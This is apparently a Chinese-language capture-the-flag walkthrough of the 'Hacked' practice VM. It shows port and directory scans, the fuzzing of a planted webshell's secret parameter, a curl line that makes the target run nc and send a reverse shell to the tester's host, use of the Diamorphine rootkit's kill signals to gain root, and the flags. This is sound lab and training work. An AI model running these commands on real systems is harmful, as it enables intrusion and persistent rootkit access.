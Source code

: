 # Hacked

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-11-15

✔️ MD5 // 2ee68492e2ef713a5216abe792aec766

☠ Root // 57

💀 User // 57

📝Notes //
Hack and Fun. Tested on Virtualbox.

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.116
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.116
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 8d:75:44:05:5f:f8:4f:ac:a1:33:fa:84:03:db:6f:94 (RSA)
|   256 5a:b6:c6:9d:a9:15:42:74:4c:7a:f9:dd:67:ae:75:0e (ECDSA)
|_  256 05:97:3c:74:bd:cf:8d:80:87:05:26:64:7f:d9:3d:c3 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
```

## web 服务

尝试目录扫描

```plaintext
[11:08:42] 200 -   16B  - /index.html
[11:08:57] 200 -   16B  - /robots.txt
[11:09:00] 302 -   62B  - /simple-backdoor.php  ->  /
```

```plaintext title="/secretnote.txt"
[X] Enumeration
[X] Exploitation
[X] Privesc
[X] Maintaining Access.
 |__> Webshell installed.
 |__> Root shell created.

-h4x0r
```

```plaintext title="/simple-backdoor.php"
I modified this webshell to only execute my secret parameter.
```

尝试对 webshell 的参数进行 fuzz

```plaintext title=""
┌─[randark@parrot]─[~]
└──╼ $ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.116/simple-backdoor.php?FUZZ=id -fs 62
......
[Status: 302, Size: 115, Words: 12, Lines: 2, Duration: 28ms]
    * FUZZ: secret
```

尝试利用

```bash
┌─[randark@parrot]─[~]
└──╼ $ curl http://192.168.56.116/simple-backdoor.php?secret=whoami
I modified this webshell to only execute my secret parameter.
www-data
```

## User - www-data

```bash
# curl http://192.168.56.116/simple-backdoor.php?secret=nc+192.168.56.102+9999+-e+/bin/bash
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[11:51:03] Welcome to pwncat 🐈!
[11:51:10] received connection from 192.168.56.116:41060
[11:51:11] 192.168.56.116:41060: registered new host w/ db
(local) pwncat$ back
(remote) www-data@hacked:/var/www/html$ whoami
www-data
```

### Diamorphine LKM rootkit

[m0nad/Diamorphine: LKM rootkit for Linux Kernels 2.6.x/3.x/4.x/5.x/6.x (x86/x86_64 and ARM64)](https://github.com/m0nad/Diamorphine)

```bash
(remote) www-data@hacked:/tmp/Diamorphine$ ls -lh
total 32K
-rw-r--r-- 1 www-data www-data 1.5K Feb 18 23:05 LICENSE.txt
-rw-r--r-- 1 www-data www-data  190 Feb 18 23:05 Makefile
-rw-r--r-- 1 www-data www-data 1.7K Feb 18 23:05 README.md
-rw-r--r-- 1 www-data www-data  11K Feb 18 23:05 diamorphine.c
-rw-r--r-- 1 www-data www-data  642 Feb 18 23:05 diamorphine.h
-rw-r--r-- 1 www-data www-data   39 Feb 18 23:09 modules.order
```

:::warning

由于靶机上的 gcc 编译环境有问题，其中 `cc1` 程序不存在于 `PATH` 环境变量中，所以需要进行一定的 patch

```bash
(remote) www-data@hacked:/tmp/Diamorphine$ ln -s /usr/lib/gcc/x86_64-linux-gnu/8/cc1 /tmp/Diamorphine/cc1
(remote) www-data@hacked:/tmp/Diamorphine$ export PATH=/tmp/Diamorphine:$PATH
```

:::

然后开始编译

```bash
(remote) www-data@hacked:/tmp/Diamorphine$ make
make -C /lib/modules/4.19.0-12-amd64/build M=/tmp/Diamorphine modules
make[1]: Entering directory '/usr/src/linux-headers-4.19.0-12-amd64'
  CC [M]  /tmp/Diamorphine/diamorphine.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /tmp/Diamorphine/diamorphine.mod.o
  LD [M]  /tmp/Diamorphine/diamorphine.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.19.0-12-amd64'
```

:::note

失误了，忘记没有 root 权限没办法加载模块到内核。。。

:::

靶机已经部署过 Diamorphine

```bash
(remote) www-data@hacked:/tmp$ kill -63 0
(remote) www-data@hacked:/tmp$ lsmod | grep diamorphine
diamorphine            16384  0
```

## User - root

```bash
(remote) www-data@hacked:/tmp$ kill -64 0
(remote) root@hacked:/tmp$ whoami
root
```

### flag - user

```bash
(remote) root@hacked:/home/h4x0r$ cat user.txt
HMVimthabesthacker
```

### flag - root

```bash
(remote) root@hacked:/root$ cat root.txt
HMVhackingthehacker
```
